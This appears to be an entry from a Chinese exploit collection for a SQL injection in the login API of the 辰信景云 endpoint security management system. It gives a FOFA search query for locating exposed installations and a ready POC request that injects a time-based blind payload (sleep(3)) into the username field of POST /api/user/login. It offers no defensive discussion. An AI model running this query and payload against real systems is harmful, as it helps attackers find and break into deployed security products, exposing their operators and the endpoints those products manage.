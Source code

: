 # 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 网络测绘

fofa: title="辰信景云终端安全管理系统"

## POC / EXP

```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```